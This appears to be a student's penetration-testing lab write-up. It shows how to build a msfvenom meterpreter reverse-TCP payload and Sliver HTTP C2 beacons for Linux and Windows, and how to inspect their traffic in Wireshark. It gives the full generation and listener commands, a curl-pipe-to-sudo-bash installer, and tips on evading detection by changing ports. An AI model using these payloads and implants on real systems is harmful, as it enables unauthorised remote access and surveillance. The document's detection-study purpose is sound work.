

# Shells

## a. Snif venom

In this one I will try to use Wireshark to snif out a msfvenon reverse shell tcp malware on my local machine. 

To make things easier, I will disable any internet access so theres less stuff going on in Wireshark. Pinging localhost first to make sure we are listening to the right interface: 

Great, the pings are being listened to, now we can do our exploit. Also making sure we arent connected to the internet.

I will now start my msfconsole and run the msfvenom binary which I've created in my previous homework assignemnt h5 using 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o reverse_shell.elf`

so I have the reverse.shell binary still and I will use it for this exercise. Let's open up msfconsole

`msfconsole`

`use exploit/multi/handler`

`set payload linux/x86/meterpreter/reverse_tcp`

`set LHOST localhost`

`set LPORT 4444`

Now on the other terminal we will run the binary of the msfvenon malware using `./reverse_shell.elf`

When we look at wireshark, we can immediately see a bunch of packets being sent over the IP of 127.0.0.1 on port 4444 and 37256

This kind of traffic would seem unusual because it's using port 4444 which is often associated with Metasploit and also it's a connection that's constantly listening with a lot of consistent traffic. That could indicate a reverse shell or some compromised service is listening.

We could mask this by switching to another more obscure or unknown port or even HTTP 80 port.

## b. Sliver HTTP

So in this one we want to make a sliver implant that communicates over HTTP.

First we need to install sliver using `curl https://sliver.sh/install|sudo bash`

Then we will start the sliver service `systemctl start sliver`

Now we will use sliver with `sliver`

Now we can create the implant 
`generate beacon --http <your_server_ip> --os <target_os> --arch <target_arch>`

My command for my own linux host
`generate beacon --http 127.0.0.1 --os linux --arch 386`

`http` can also be some other like `mtls` or `dns`
`--os` for operating system

`--arch` for CPU architecture whether 64 bit or 32 bit

We should have some sort of executable that we can run. 

Now we just need to start http listener with `http` in sliver and `jobs` to inspect it 

Now we just run the executable in linux and we will get a beacon session. 

We can `use <beacon id>` to interact with it and execute commands

## c. Sliver Wireshark Inspect

On wireshark, we can see a lot of HTTP traffic on port 80 and consistent 86 byte packets being sent over the network

When we do `use <beacon_id>` and interact with the beacon we get even more traffic

This is suspicious because it's repeated TLS data with consistent size

TCP Keep-Alive packets and TCP Dup ACK events shows active TCP connection

Port 31337 is a common port for backdoors

POST/authenticate/auth/login.php HTTP requests when you aren't really using any website

## d. Changing active connection type in Sliver?

## e. Screensaver in sliver

You can save screenshot in sliver with `screenshot` while using an active beacon

I have an issue where sliver makes a task but it takes forever for it to complete

This was run on my windows machine and the result was saved to the tmp folder

## f. Sliver binary for windows

Let's make a sliver binary for windows: 
`generate beacon --http 192.168.150.6 --os windows --arch 64`

Turn on `http`

I will execute it on windows now through a shared drive, and run the exe: 

It works

## g. Bundling Sliver with another executable

References:

https://terokarvinen.com/tunkeutumistestaus/

https://osqa-ask.wireshark.org/questions/20423/pshack-wireshark-capture/#:~:text=The%20ACK%20indicates%20that%20a,also%20transmitting%20some%20more%20data.

https://seamlessintelligence.com.au/sliver_1.html

https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2/2f6500892f78dbaae0bd4d41fc72e44aef6759ee

https://www.linkedin.com/pulse/sliver-c2-implementation-hands-on-approach-adegbola-adeleye-0gl6e/

https://barrymalone.medium.com/sliver-an-awesome-c2-framework-c0257f2f52e4

https://dominicbreuker.com/post/learning_sliver_c2_02_beacons_and_sessions/